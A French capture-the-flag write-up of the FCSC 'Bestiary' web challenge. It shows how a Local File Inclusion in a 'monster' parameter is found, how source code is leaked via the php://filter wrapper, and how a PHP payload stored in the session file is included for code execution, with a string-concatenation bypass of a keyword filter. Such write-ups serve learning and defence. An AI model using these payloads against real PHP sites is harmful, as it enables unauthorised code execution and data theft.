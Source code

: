 # Bestiary - Web - 200

> On vous demande simplement de trouver le flag.

On continue dans la lancée des challenges Web, celui-ci suit le thème du challenge "Enter the Dungeon", et a également été bien réussi avec un total de 373 validations à la fin.

Commençons sans plus attendre !

## Analyse du fonctionnement de l'application

Sur l'application, il nous est proposé à travers un menu déroulant de sélectionner une créature pour afficher son image ainsi qu'une description qui lui est associée.

Après sélection, nous remarquons que le nom de cette créature est présente dans l'url dans le paramètre "monster":

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=displacer_beast```

## Recherche d'une vulnérabilité

On essaie de titiller légèrement le paramètre "monster" en lui fournissant par une simple apostrophe pour voir ce qu'il en ressort.

```
Warning: include('): failed to open stream: No such file or directory in /var/www/html/index.php on line 33

Warning: include(): Failed opening ''' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 33
```

Tiens, tiens ça ressemble tout bonnement à une petite LFI (Local File Inclusion), en plus le paramètre entier semble le paramètre direct de l'include, il n'y a pas de chaîne supplémentaire.

## Exploitation de la LFI

Essayons de leak le code de la page avec la technique des wrappers PHP:

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php```

Bingo, on a bien le code en base64 qui nous est renvoyé, on le décode puis pouvons analyser le code de cette page:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Comme nous l'avions deviné, le paramètre "monster" est directement en paramètre du include.
Mais pour obtenir le flag, nous devons faire face à d'autres problèmes ...

L'idéal serait de directement inclure le fichier flag.php avec la LFI, mais la chaîne "flag" est filtrée avec **strpos** ainsi qu'une comparaison stricte, ce qui nous empêche de la contourner.

Cependant, nous remarquons quelque chose d'étrange, le dossier de sauvegarde des sessions a été placé dans le dossier "sessions/".
Nous contrôlons également le contenu de notre session.

## LFI to RCE

L'idée serait ici de placer dans notre session du code PHP permettant d'inclure le flag, tout en passant la condition du **strpos**, puis d'inclure notre fichier de session dans la page, permettant d'exécuter notre code PHP !

Dans un premier temps, nous devons remplacer le champ "monster" de notre session PHP par notre payload:

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents("fla"."g.php"); ?>```

La concaténation va permettre de contourner la protection.

Nous récupérons ensuite notre session PHP qui est présente dans le cookie PHPSESSID: ```c6f7d94e27cad2edf40ee6a67f4e1ecb```

Puis nous incluons ensuite notre fichier de session:

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_c6f7d94e27cad2edf40ee6a67f4e1ecb```

Et là, comme par magie, le code présent dans notre session a été exécuté, et nous pouvons apercevoir le flag présent dans le fichier flag.php !

```
monster|s:47:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
";</p>
```

FLAG: FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
